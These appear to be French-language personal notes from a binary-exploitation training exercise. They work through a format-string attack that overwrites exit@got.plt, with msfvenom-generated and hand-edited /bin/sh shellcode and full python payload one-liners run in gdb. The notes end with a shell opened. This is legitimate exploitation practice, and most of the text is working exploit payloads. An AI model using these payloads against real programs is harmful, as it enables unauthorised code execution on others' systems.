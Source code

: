 https://samsclass.info/127/proj/ED204c.htm
Ca l air d etre juste une string vulnerability.
Juste rewrite sur exit l adresse du shellcode
(python -c 'print "\xe0\x97\x04\x08JUNK\xe4\x97\x04\x08.%x.%x.%x.%x.%x.%x.%x.%x.%x.%n.%x.%n"')
Program received signal SIGSEGV, Segmentation fault.
0x00000042 in ?? ()
(gdb) x/1x 0x080497e0
0x80497e0 <exit@got.plt>:	0x00000042

// Things to change in the shellcode because of this line  s[i] ^= 0x20u;

// Probleme => 0x50 qui equivaut a push eax se transforme en 0x70 => Solution? On utilise un outil qui s appelle msf venom avec le flag -b.

msfvenom -p linux/x86/exec CMD=/bin/sh -f c -b "\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59"

"\x29\xc9\x83\xe9\xf5\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x91\xf6\xf2\x0f\x83\xee\xfc\xe2\xf4\xfb\xfd\xaa\x96"
"\xc3\x90\x9a\x22\xf2\x7f\x15\x67\xbe\x85\x9a\x0f\xf9\xd9"
"\x90\x66\xff\x7f\x11\x5d\x79\xfe\xf2\x0f\x91\xd9\x90\x66"
"\xff\xd9\x81\x67\x91\xa1\xa1\x86\x70\x3b\x72\x0f"

"\x33\xc9\xb1\x0b\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xcc\xd6\xf1\xff\x83\xeb\xfc\xe2\xf4\xa6\xdd\xa9\x66\x9e\xb0\x99\xd2\xaf\x5f\x16\x97\xe3\xa5\x99\xff\xa4\xf9\x93\x96\xa2\x5f\x12\xad\x24\xde\xf1\xff\xcc\xf9\x93\x96\xa2\xf9\x82\x97\xcc\x81\xa2\x76\x2d\x1b\x71\xff"

=> ce shellcode fonctionne mtn faut l utiliser pour le printf();

$(python -c 'print "\xe0\x97\x04\x08JUNK\xe2\x97\x04\x08%x%x%x%x%x%x%x%x%101x%hn%34x%hn"+ "\x90" * 3 + "\x33\xc9\xb1\x0b\xd9\xee\xd9\x74\x24\xf4\x5b\x81\x73\x13\xcc\xd6\xf1\xff\x83\xeb\xfc\xe2\xf4\xa6\xdd\xa9\x66\x9e\xb0\x99\xd2\xaf\x5f\x16\x97\xe3\xa5\x99\xff\xa4\xf9\x93\x96\xa2\x5f\x12\xad\x24\xde\xf1\xff\xcc\xf9\x93\x96\xa2\xf9\x82\x97\xcc\x81\xa2\x76\x2d\x1b\x71\xff"')

// shellcode en cours, autre soucis pas assez de place pour mettre le shellcode en entier

"\x6a\x0b\x58\x68\x2f\x73\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" autre shellcode a tester sur un autre niveau


// soucis => ce shellcode contient un byte null.
=> Solution: on a remplace le 00 par 2f.

run <<< $(python -c 'print "dat_will" + "\x90" * 19 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"';python -c 'print "A" *  282 + "\x50\xa0\x04\x08"';)


"\x6a\x0b\x58\x68\x2f\x73\x68\x2f\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";

 run <<< $(python -c 'print "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80" + "\x7e\xd6\xff\xff\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%x%x%x%x%x%x%79x%hhn%hn%100x%hf"')

=> commande a modifier un peu pour overwrite sur le exit proprement 
=> go le tranformer en ffffd66c
=> Ne pas mettre de junk car on depasse les 100 caracteres
=> On depasse les 100 caracteres trouvez une solution.
=> solution mettre le shellcode en avance
run <<< $(python -c 'print "\xc5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"')

run <<< $(python -c 'print "\xc5\xd6\xff\xffjunk\xe0\x97\x04\x08junk\xe2\x97\x04\x08" + "%x%x%x%x%x%x%x%x%26634x%hn%28270x%hn%76096x%hn" + "\x90" * 5 + "\x31\xc0\x31\xd2\x31\xc9\x51\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x8d\x1c\x24\xb0\x0b\xcd\x80"') 

cela ouvre un bin/dash sur gdb!

=> Regarder sur lvl02 ou se trouve la vraie memoire dans le term 
=> Il ya 0x20 de diff entre la memoire de gdb et la memoire normale